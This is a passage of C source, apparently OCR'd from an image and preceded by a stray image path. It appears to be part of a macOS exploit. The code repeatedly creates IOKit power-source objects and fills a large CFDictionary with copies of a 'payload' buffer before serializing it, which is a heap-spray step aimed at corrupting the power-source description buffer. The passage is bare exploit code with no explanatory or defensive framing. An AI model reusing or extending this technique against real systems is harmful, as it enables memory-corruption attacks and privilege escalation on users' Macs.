 ```c

        kr = io_ps_new_pspowersource(sp,&psid,&ret);
        if(ret) {
            printf("io_ps_new_pspowersource() -> kr = %d,psid = 0x%x, ret = 0x%x\n",kr,psid,ret);
            exit(0);
        }
#if 0
    printf("io_ps_new_pspowersource() -> kr = %d,psid = 0x%x, ret = 0x%x\n",kr,psid,ret);
    printf("[+] a new PS object has been created = 0x%x \n",psid);
#endif
        *upsid = psid;
        if(ret) {
            printf("io_ps_new_pspowersource() -> kr = %d,psid = 0x%x, ret = 0x%x\n",kr,psid,ret);
            exit(0);
        }
    } else
        ;//printf("[+] updating PS description = 0x%x\n",psid);

    ret = 0;
    uint32_t size = psize;

    Dict1 = CFDictionaryCreateMutable(NULL,0x10000,&kCFTypeDictionaryKeyCallBacks,&kCFTypeDictionaryValueCallBacks);


    for(int i =0;i<iter;i++) {
        char key[16] ={0};
        sprintf(key,"%d",i+1);
        //CFNumberRef psIDKey = CFNumberCreate(kCFAllocatorDefault, kCFNumberIntType, &i);

        // create the key of dictionary + put payload in CFData
        CFStringRef str = CFStringCreateWithCString(0,key,kCFStringEncodingUTF8);
        //CFStringRef Data = CFStringCreateWithCString(0,(const char *)p,0);
        CFDataRef Data = CFDataCreate(NULL,(const UInt8 *)p1,size);

#if 0
        if(Data == NULL) {
            printf("Data corruption, failed .. !\n");
            exit(-1);
        }
        printf("CFData : %p \n",Data);
#endif
        //printf("CFData (%d): %p \n",i,Data);
        //CFDictionarySetValue(Dict, str, Data);
        CFDictionaryAddValue(Dict1,str,Data);
        CFRelease(str);
        CFRelease(Data);
#if 0
        // for test only
        vm_deallocate(mach_task_self(),(vm_address_t)p,size);
#endif

    }

   // some data requirments here to fill the psID.decription buffer
#define kIOPSTypeKey                "Type"
#define kIOPSUPSType                "UPS"
    CFDictionarySetValue(Dict1, CFSTR(kIOPSTypeKey), CFSTR(kIOPSUPSType));

    CFDataRef obj = IOCFSerialize(Dict1,0);
#if 0
    printf("DEBUG IOCFSerialize() : obj=%p size=0x%x\n",CFDataGetBytePtr(obj), (int)CFDataGetLength(obj));
```